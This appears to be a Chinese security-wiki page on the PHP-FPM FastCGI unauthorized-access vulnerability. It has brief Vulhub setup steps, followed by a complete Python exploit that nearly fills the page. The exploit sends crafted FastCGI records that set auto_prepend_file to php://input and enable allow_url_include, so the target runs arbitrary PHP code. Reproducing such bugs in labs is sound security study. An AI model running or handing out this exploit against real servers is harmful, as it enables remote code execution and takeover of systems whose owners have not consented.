

PHP-FPM Fastcgi 未授权访问漏洞¶
漏洞描述¶
参考阅读：
环境搭建¶
Vulhub 编译及运行测试环境：
docker-compose build
docker-compose up -d
访问 http://your-ip:9000/
漏洞复现¶
任意代码执行 exp：
import socket
import random
import argparse
import sys
from io import BytesIO
# Referrer: https://github.com/wuyunfeng/Python-FastCGI-Client
PY2 = True if sys.version_info.major == 2 else False
def bchr(i):
if PY2:
return force_bytes(chr(i))
else:
return bytes([i])
def bord(c):
if isinstance(c, int):
return c
else:
return ord(c)
def force_bytes(s):
if isinstance(s, bytes):
return s
else:
return s.encode('utf-8', 'strict')
def force_text(s):
if issubclass(type(s), str):
return s
if isinstance(s, bytes):
s = str(s, 'utf-8', 'strict')
else:
s = str(s)
return s
class FastCGIClient:
"""A Fast-CGI Client for Python"""
# private
__FCGI_VERSION = 1
__FCGI_ROLE_RESPONDER = 1
__FCGI_ROLE_AUTHORIZER = 2
__FCGI_ROLE_FILTER = 3
__FCGI_TYPE_BEGIN = 1
__FCGI_TYPE_ABORT = 2
__FCGI_TYPE_END = 3
__FCGI_TYPE_PARAMS = 4
__FCGI_TYPE_STDIN = 5
__FCGI_TYPE_STDOUT = 6
__FCGI_TYPE_STDERR = 7
__FCGI_TYPE_DATA = 8
__FCGI_TYPE_GETVALUES = 9
__FCGI_TYPE_GETVALUES_RESULT = 10
__FCGI_TYPE_UNKOWNTYPE = 11
__FCGI_HEADER_SIZE = 8
# request state
FCGI_STATE_SEND = 1
FCGI_STATE_ERROR = 2
FCGI_STATE_SUCCESS = 3
def __init__(self, host, port, timeout, keepalive):
self.host = host
self.port = port
self.timeout = timeout
if keepalive:
self.keepalive = 1
else:
self.keepalive = 0
self.sock = None
self.requests = dict()
def __connect(self):
self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
self.sock.settimeout(self.timeout)
self.sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
# if self.keepalive:
# self.sock.setsockopt(socket.SOL_SOCKET, socket.SOL_KEEPALIVE, 1)
# else:
# self.sock.setsockopt(socket.SOL_SOCKET, socket.SOL_KEEPALIVE, 0)
try:
self.sock.connect((self.host, int(self.port)))
except socket.error as msg:
self.sock.close()
self.sock = None
print(repr(msg))
return False
return True
def __encodeFastCGIRecord(self, fcgi_type, content, requestid):
length = len(content)
buf = bchr(FastCGIClient.__FCGI_VERSION) \
+ bchr(fcgi_type) \
+ bchr((requestid >> 8) & 0xFF) \
+ bchr(requestid & 0xFF) \
+ bchr((length >> 8) & 0xFF) \
+ bchr(length & 0xFF) \
+ bchr(0) \
+ bchr(0) \
+ content
return buf
def __encodeNameValueParams(self, name, value):
nLen = len(name)
vLen = len(value)
record = b''
if nLen < 128:
record += bchr(nLen)
else:
record += bchr((nLen >> 24) | 0x80) \
+ bchr((nLen >> 16) & 0xFF) \
+ bchr((nLen >> 8) & 0xFF) \
+ bchr(nLen & 0xFF)
if vLen < 128:
record += bchr(vLen)
else:
record += bchr((vLen >> 24) | 0x80) \
+ bchr((vLen >> 16) & 0xFF) \
+ bchr((vLen >> 8) & 0xFF) \
+ bchr(vLen & 0xFF)
return record + name + value
def __decodeFastCGIHeader(self, stream):
header = dict()
header['version'] = bord(stream[0])
header['type'] = bord(stream[1])
header['requestId'] = (bord(stream[2]) << 8) + bord(stream[3])
header['contentLength'] = (bord(stream[4]) << 8) + bord(stream[5])
header['paddingLength'] = bord(stream[6])
header['reserved'] = bord(stream[7])
return header
def __decodeFastCGIRecord(self, buffer):
header = buffer.read(int(self.__FCGI_HEADER_SIZE))
if not header:
return False
else:
record = self.__decodeFastCGIHeader(header)
record['content'] = b''
if 'contentLength' in record.keys():
contentLength = int(record['contentLength'])
record['content'] += buffer.read(contentLength)
if 'paddingLength' in record.keys():
skiped = buffer.read(int(record['paddingLength']))
return record
def request(self, nameValuePairs={}, post=''):
if not self.__connect():
print('connect failure! please check your fasctcgi-server !!')
return
requestId = random.randint(1, (1 << 16) - 1)
self.requests[requestId] = dict()
request = b""
beginFCGIRecordContent = bchr(0) \
+ bchr(FastCGIClient.__FCGI_ROLE_RESPONDER) \
+ bchr(self.keepalive) \
+ bchr(0) * 5
request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_BEGIN,
beginFCGIRecordContent, requestId)
paramsRecord = b''
if nameValuePairs:
for (name, value) in nameValuePairs.items():
name = force_bytes(name)
value = force_bytes(value)
paramsRecord += self.__encodeNameValueParams(name, value)
if paramsRecord:
request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, paramsRecord, requestId)
request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, b'', requestId)
if post:
request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, force_bytes(post), requestId)
request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, b'', requestId)
self.sock.send(request)
self.requests[requestId]['state'] = FastCGIClient.FCGI_STATE_SEND
self.requests[requestId]['response'] = b''
return self.__waitForResponse(requestId)
def __waitForResponse(self, requestId):
data = b''
while True:
buf = self.sock.recv(512)
if not len(buf):
break
data += buf
data = BytesIO(data)
while True:
response = self.__decodeFastCGIRecord(data)
if not response:
break
if response['type'] == FastCGIClient.__FCGI_TYPE_STDOUT \
or response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
if response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
self.requests['state'] = FastCGIClient.FCGI_STATE_ERROR
if requestId == int(response['requestId']):
self.requests[requestId]['response'] += response['content']
if response['type'] == FastCGIClient.FCGI_STATE_SUCCESS:
self.requests[requestId]
return self.requests[requestId]['response']
def __repr__(self):
return "fastcgi connect host:{} port:{}".format(self.host, self.port)
if __name__ == '__main__':
parser = argparse.ArgumentParser(description='Php-fpm code execution vulnerability client.')
parser.add_argument('host', help='Target host, such as 127.0.0.1')
parser.add_argument('file', help='A php file absolute path, such as /usr/local/lib/php/System.php')
parser.add_argument('-c', '--code', help='What php code your want to execute', default='<?php phpinfo(); exit; ?>')
parser.add_argument('-p', '--port', help='FastCGI port', default=9000, type=int)
args = parser.parse_args()
client = FastCGIClient(args.host, args.port, 3, 0)
params = dict()
documentRoot = "/"
uri = args.file
content = args.code
params = {
'GATEWAY_INTERFACE': 'FastCGI/1.0',
'REQUEST_METHOD': 'POST',
'SCRIPT_FILENAME': documentRoot + uri.lstrip('/'),
'SCRIPT_NAME': uri,
'QUERY_STRING': '',
'REQUEST_URI': uri,
'DOCUMENT_ROOT': documentRoot,
'SERVER_SOFTWARE': 'php/fcgiclient',
'REMOTE_ADDR': '127.0.0.1',
'REMOTE_PORT': '9985',
'SERVER_ADDR': '127.0.0.1',
'SERVER_PORT': '80',
'SERVER_NAME': "localhost",
'SERVER_PROTOCOL': 'HTTP/1.1',
'CONTENT_TYPE': 'application/text',
'CONTENT_LENGTH': "%d" % len(content),
'PHP_VALUE': 'auto_prepend_file = php://input',
'PHP_ADMIN_VALUE': 'allow_url_include = On'
}
response = client.request(params, content)
print(force_text(response))
